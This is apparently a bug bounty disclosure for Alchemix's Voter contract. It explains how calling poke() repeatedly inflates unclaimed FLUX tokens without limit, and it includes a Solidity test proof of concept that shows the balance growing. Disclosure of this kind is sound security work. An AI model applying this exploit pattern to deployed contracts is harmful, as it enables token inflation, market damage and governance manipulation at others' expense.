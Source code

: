 
# User can increase their unclaimed Flux token without limits through `poke()`

Submitted on Sun May 05 2024 19:39:08 GMT-0400 (Atlantic Standard Time) by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30788

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- unbounded minting of token
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
A user can increase their unclaimed Flux token amount by calling `Voter.poke()` multiple times.

## Vulnerability Details
The `Voter._vote()` function calls `FluxToken.accrueFlux(_tokenId)` which increases the `unclaimed[_tokenId]` balance according the `_tokenId` voting power. `_vote()` is called by `vote()` which has the `onlyNewEpoch(_tokenId)` modifier attached, so it can be called only once during each epoch. 

The `_vote()` is also used inside `poke()`. `poke()` is supposed to vote based on the users previous voting weights. however `poke()` does not have the above mentioned modifier attached, hence it can be called multiple times during the epoch without any limits. Each time `poke()` is called the unclaimed FLUX is increased.

## Impact Details
The impact is that the user can accrue potentially unlimited amount of unclaimed Flux. The unclaimed Flux could be used to execute unfair voting by increasing the user's voting power. It could also be claimed and sold on the open market to suppress the Flux price which will allow other users to unlock their veALCX tokens at lower prices hence destroying the entire voting system credibility.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195

        
## Proof of concept
## Proof of Concept
Add to the `VotingEscrow.t.sol` the following code:
```solidity
function testAbusePoke() public {
        hevm.startPrank(admin);

        uint256 tokenIdLarge = veALCX.createLock(TOKEN_100K, THREE_WEEKS, false);
        //uint256 tokenIdSmall = veALCX.createLock(TOKEN_1, THREE_WEEKS, false);


        voter.reset(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge: %d", flux.unclaimedFlux(tokenIdLarge));
        voter.poke(tokenIdLarge);
        // we can see that the user amassed more unclaimed FLUX: 9420478183663114723056
        console.log("Unclaimed Flux on tokenIdLarge after poke called once: %d", flux.unclaimedFlux(tokenIdLarge));

        // even more after calling poke() again: 14130717275494672084584
        voter.poke(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge after poke called twice: %d", flux.unclaimedFlux(tokenIdLarge));

        // and again: 18840956367326229446112
        voter.poke(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge after poke called thrid time: %d", flux.unclaimedFlux(tokenIdLarge));

        hevm.stopPrank();
    }
```
